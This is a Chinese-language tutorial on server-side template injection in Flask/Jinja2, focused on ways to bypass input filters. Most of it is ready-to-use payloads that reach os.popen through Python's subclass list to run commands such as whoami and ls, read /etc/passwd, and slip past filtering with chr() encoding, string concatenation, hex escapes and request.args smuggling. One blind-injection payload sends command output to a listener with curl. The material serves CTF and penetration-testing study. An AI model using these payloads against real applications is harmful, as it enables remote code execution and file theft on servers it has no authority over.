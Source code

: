 # 原创
：  【SSTI模块注入】SSTI+Flask+Python（下）：绕过过滤

# 【SSTI模块注入】SSTI+Flask+Python（下）：绕过过滤

**目录**

[一、绕过[]过滤](#%E4%B8%80%E3%80%81%E7%BB%95%E8%BF%87%5B%5D%E8%BF%87%E6%BB%A4)

[方法一：__getitem__](#%E6%96%B9%E6%B3%95%E4%B8%80%EF%BC%9A__getitem__)

[方法二：pop()](#%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%9Apop%28%29)

[二、绕过引号'过滤](#%E4%BA%8C%E3%80%81%E7%BB%95%E8%BF%87%E5%BC%95%E5%8F%B7'%20rel=)

[方法一：对象request（jinjia2）](#%E6%96%B9%E6%B3%95%E4%B8%80%EF%BC%9A%E5%AF%B9%E8%B1%A1request%EF%BC%88jinjia2%EF%BC%89)

[方法二：chr函数](#%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%9Achr%E5%87%BD%E6%95%B0)

[三、绕过下划线_过滤](#%E4%B8%89%E3%80%81%E7%BB%95%E8%BF%87%E4%B8%8B%E5%88%92%E7%BA%BF_%E8%BF%87%E6%BB%A4)

[方法一：request.args.](#%E6%96%B9%E6%B3%95%E4%B8%80%EF%BC%9Arequest.args.)

[四、关键字过滤](#%E5%9B%9B%E3%80%81%E5%85%B3%E9%94%AE%E5%AD%97%E8%BF%87%E6%BB%A4)

[方法一：拼接](#%E6%96%B9%E6%B3%95%E4%B8%80%EF%BC%9A%E6%8B%BC%E6%8E%A5)

[方法二：内置函数](#%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%9A%E5%86%85%E7%BD%AE%E5%87%BD%E6%95%B0)

[方法三：转换](#%E6%96%B9%E6%B3%95%E4%B8%89%EF%BC%9A%E8%BD%AC%E6%8D%A2)

[五、绕过花括号{}过滤](#%E4%BA%94%E3%80%81%E7%BB%95%E8%BF%87%E8%8A%B1%E6%8B%AC%E5%8F%B7%7B%7D%E8%BF%87%E6%BB%A4)

[方法一：{% if ... %}1{% endif %}](#%E6%96%B9%E6%B3%95%E4%B8%80%EF%BC%9A%7B%25%20if%20...%20%25%7D1%7B%25%20endif%20%25%7D)

---


## 一、绕过[]过滤

> 
<h3>方法一：__getitem__</h3>
''.__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(127).__init__.__globals__["popen"]("whoami").read()


> 
<h3>方法二：pop()</h3>
移除列表中的一个元素（默认最后一个元素），并且返回该元素的值
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()


---


---


## 二、绕过引号'过滤

> 
<h3>方法一：对象request（jinjia2）</h3>
1、
{{[].__class__.__mro__[1].__subclasses__()[300].__init__.__globals__[request.args.arg1]}}&amp;arg1=os
args是数组，可以进行自定义传值
<hr/>
2、
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&amp;path=/etc/passwd


> 
<h3>方法二：chr函数</h3>
1、
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
<hr/>
2、
%2b是+，char()可以查看ASCII码对应表
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}


---


---


## 三、绕过下划线_过滤

> 
<h3>方法一：request.args.</h3>
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&amp;class=__class__&amp;mro=__mro__&amp;subclasses=__subclasses__
GET传参：request.args

POST传参：request.values


---


---


## 四、关键字过滤

> 
<h3>方法一：拼接</h3>
{{request['__cl'+'ass__'].__mro__[12]}}
或者
.__init__.__globals__["sys"+"tem"]
<hr/>
~ 在jinja中可以拼接字符串


> 
<h3>方法二：内置函数</h3>
replace、decode……


> 
<h3>方法三：转换</h3>
{{"".__class__}} 
转换为十六进制进行绕过
{{""["\x5f\x5fclass\x5f\x5f"]}}


---


---


## 五、绕过花括号{}过滤

> 
<h3>方法一：{% if ... %}1{% endif %}</h3>
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
<hr/>
配合盲注
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}1{% endif %}

